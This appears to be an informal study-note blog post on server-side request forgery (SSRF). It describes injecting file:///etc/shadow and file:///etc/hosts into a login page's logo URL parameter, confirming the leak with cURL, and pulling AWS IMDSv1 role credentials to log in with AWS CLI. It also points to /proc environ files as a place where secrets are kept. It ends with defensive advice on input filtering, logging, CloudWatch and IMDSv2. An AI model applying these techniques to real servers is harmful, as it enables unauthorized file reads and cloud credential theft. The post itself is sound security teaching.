there is 2 types when making a request to a server, the first one the client sent an HTTP GET request to the server requesting a photo `/img=alien.png`, the server accept this request and parse it returning a response with the HTML markup tag instruction the browser to get the image from (`https://server2/alien.png`), then its render and sent another request to server2 asking for the the `alien.png`. in this type the server delivers a reference to the file, and the web client makes a 2nd request to obtain the file.



the 2nd type is when the server request the asset of behalf of the client, aka. server-side request, if the user requested the same `/img=alien.png`, instead of a of a reference returning the server request the asset from server2 directly, then return the photo the the client. but this server-side request  is unusual for web servers . if the server doesn't validate the input then its in risk of the SSRF.  

### SSFR:

lets see how this can be abused , so instead of the `/img=alien.png`, we’ll have the whole URL to the remote asset so it will be `https://server2/me.jpg` , so what if modified it into `file:///etc/shadow` here the server will still also preform the server-side request, but it will retrieve the `etc/shadow` file from the local file system. reviling sensitive information.



### Example:

lets take a look at this login page with options to change the federated login source like Facebook, X, Microsoft. depending on what the user choose the logo of the provider is displayed in the login dialog , taking a look at the URL we see 2 HTTP GET parameters: `*F*` and `*logo`.*

the value associated with the `*logo*`, reveals a full-qualified URL, that uses CDN to get the logo, so here we see an URL that sent straight to the server so here we may find a SSFR. 





so lets change the `*logo*` parameter to the local file reference using the `file:///etc/hosts` file and submit the page, hmmm it returns the same page but with a broken image reference. to see what really is happening we’ll have to use `cURL`.

so we’ll use `cURL` with the `-v` flag to increase the verbosity of the response, the out put here confirms a SSRF vulnerability on the target site, as the returned response shows the `/etc/hosts` file, though SSRF don't allow you to list system files , but the attacker can just list familiar files that he may need like `/etc/passwd /shadow`  and any logs he needs, but some times the server may not have the permissions needed to open such files.



when exploiting SSRF, attackers will try and access protected files on the host or escalate there privilege by obtaining passwords , or passwords hash info. the most common way of doing so is accessing the `/etc/shadow` file. but its a bit different in the cloud world, a Linux server needs the `/etc/shadow` file to identify file ownership, but if there is no interactive user login or user based authentication there will be no need to such files, just like in the cloud. so if you `cURL` and the returned value is `*Content-Length value of zero*`, this can mean that the file is protected, or simply it just doesn't exist. this can help the attacker to try other cloud-centric exploitation against the server.

### Instance Metadata Service (IMDS) Access:

it a virtual server endpoint, used in all major providers to allow developers to know the cloud system environment, IMDS shows data about the cloud like resources SKU, hostname, cloud IAM permissions, network settings, storage options,…. to access IMDS the app access a URL endpoint, in this example the admin may store some app data.



a system can make configuration decisions using the IMDS at boot time, or when a desired app is starting up, its a powerful tool that help  to configure cloud assets without the need of modifying the instance or VM. in some other cases the IMDS can hold valuable info like a database connection string, since IMDS use simple http request its leveraged by attackers as part of the SSRF attack.



### AWS IMDSv1 Credential Exfiltration:

the IMDSv1 is well known for disclosing sensitive data to attacker through the SSRF, but it depends if the user data service supplies any sensitive info related to the cloud , so in this example we first identify the role name then use it to get the security credentials for this role, providing us with the access key ID, secret access key, and token. next the attacker uses AWS-CLI to login using the credentials they got.



IMDSv1 data disclosure is an issue that affect so they came up withe IMDSv2 that require some sort of authentication to access the IMDS like a special HTTP header. in SSRF attackers mostly cant customize there headers info, by requiring this custom header the cloud provider can easily set a requirement easily accommodated when building apps but harder for normal requests. 



this option is not turned on by default so most of AWS is vulnerable to to IDMS data disclosure.

in SSRF attacks in the cloud the attackers doesn't care that much about the system files as it may not exist or will not help with his attack instead he's focused on app-specific files , that can help exploiting supporting systems like a database connection string. cloud deploys everything as root  

in many cases, credentials are specified through the system environment as an environment variable. this can be better then storing it in a file, but still u can reach it in the `/proc/###/environ` files where the ### are numeric to the PID and in some cases it can be stored in the `/etc/environmen`t file.

### Defense:

i guess by now you will know what i will say the input input input, make sure you sanitize it and filter it probably.  logging resources in the web server to help with the SSRF attacks, also the cloud logs for the IMDS attack, Using AWS CloudWatch logs, we can monitor for any external use of these temporary credentials, indicating that the credentials are compromised and possibly revealing the attacker's IP address. and finally requires the developers to use IMDSv2 s it protects against basic SSRF access to the IMDS, though it will not block it fully but still.



**done الحمدلله**